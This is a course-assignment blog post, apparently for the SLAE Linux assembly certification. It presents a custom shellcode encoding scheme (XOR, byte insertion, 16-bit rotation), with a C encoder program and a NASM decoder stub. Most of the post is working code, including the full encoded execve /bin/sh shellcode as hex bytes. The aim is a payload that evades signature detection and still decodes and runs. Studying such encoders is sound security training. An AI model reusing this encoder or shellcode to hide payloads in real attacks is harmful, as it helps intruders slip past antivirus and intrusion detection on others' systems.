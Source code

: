 ```yaml
---
comments: true
date: 2014-04-10
layout: post
title: 'SLAE Assignment 4: Custom Enc. Schema'
subtitle: '4th assignment of the SLAE'
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:

{% highlight c %}
//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
//Author:	Paolo Stivanin <https://github.com/paolostivanin>
//SLAE ID:	526

#include <stdint.h>
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

#define ROL 0x00
#define ROR !ROL

void concatenate(uint8_t [], uint32_t);
void rotate(uint32_t, uint32_t, uint32_t);
void split_uint32(uint32_t);

uint8_t *finalShellcode;
uint32_t counter = 0;

int main(void){
	uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
	uint8_t xorByte = 0x1c;
	uint8_t insertByte = 0xb2;

	size_t LEN=sizeof(execveShellcode);
	uint8_t xorWithInsertion[LEN*2];
	uint32_t i, j=0;

	restart:
	for(i=0; i<LEN; i++){
		if(execveShellcode[i] == xorByte){
			xorByte += 1;
			goto restart;
		}
	}
	for(i=0; i<LEN; i++){
		execveShellcode[i] ^= xorByte;
	}

	printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
	for(i=0; i<LEN; i++){
		if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
		else printf("0x%02x,", execveShellcode[i]);
	}
	
	for(i=0; i<LEN*2; i++){
		xorWithInsertion[i] = execveShellcode[j++];
		xorWithInsertion[++i] = insertByte++;
	}
	printf("\n\nINSERTION(XOR(Shellcode)):\n");
	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
		else printf("0x%02x,", xorWithInsertion[i]);
	}	

	printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

	finalShellcode = malloc(sizeof(xorWithInsertion));
	concatenate(xorWithInsertion, sizeof(xorWithInsertion));

	for(i=0; i<LEN*2; i++){
		if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
		else printf("0x%02x,", finalShellcode[i]);
	}
	printf("\n");

	free(finalShellcode);

	return 0;
}
	
void concatenate(uint8_t arr[], uint32_t size){
   	if(size % 4 != 0){
   		printf("Size must be a multiple of 4\n");
   		return;
   	}
   
   	uint32_t i, value = 0;
	
   	for(i=0;i<size;i++){
   		value = value^arr[i];
   		if(i%4 == 3){
   			rotate(value, 16, ROL);
   			value = 0;
   		}
   		else value = value<<8;
   	}
}
	
void rotate(uint32_t input, uint32_t bits, uint32_t direction){
	uint32_t output;
	
	if(direction == ROL){
		output = input << (bits % (8 * sizeof(uint32_t)));
		output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
	}
	else
	{
		output = input >> (bits % (8 * sizeof(uint32_t)));
		output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
   	}
   	split_uint32(output);
}
	
void split_uint32(uint32_t splitMe){
   	uint32_t j;
   	uint8_t b[4];
   	b[0] = (splitMe >> 24);
   	b[1] = (splitMe >> 16) & 0xff;
   	b[2] = (splitMe & 0xffff) >> 8;
   	b[3] = (splitMe & 0xff);
   	for(j=0; j<4; j++){
   		finalShellcode[counter++] = b[j];
   	}
}
{% endhighlight %}

And this is the shellcode used to decode and execute the original execve shellcode:

{% highlight nasm %}
;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
;Author:	Paolo Stivanin <https://github.com/paolostivanin>
;SLAE ID:	526

global _start
section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi
	xor eax,eax
	xor ebx,ebx
	mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
	xor edx,edx
ll:	mov ah, BYTE [esi]
	mov al, BYTE [esi +1]
	rol eax,16
	mov ah, BYTE [esi +2] 
	mov al, BYTE [esi +3]
	add esi,4
	mov bh, BYTE [esi]
	mov bl, BYTE [esi +1]
	rol ebx,16
	mov bh, BYTE [esi +2]
	mov bl, BYTE [esi +3]
	add esi,4

	mov dh,ah
	rol eax,16
	mov al,dh
	rol eax,16

	mov dh,bh
	rol ebx,16
	mov bl,dh

	mov ax,bx
	xor eax,0x1c1c1c1c
	push eax
	dec cl
	jnz ll
	jmp esp	

call_shellcode:
	call decoder
	EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2
{% endhighlight %}

Please note that `EncodedShellcode` **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
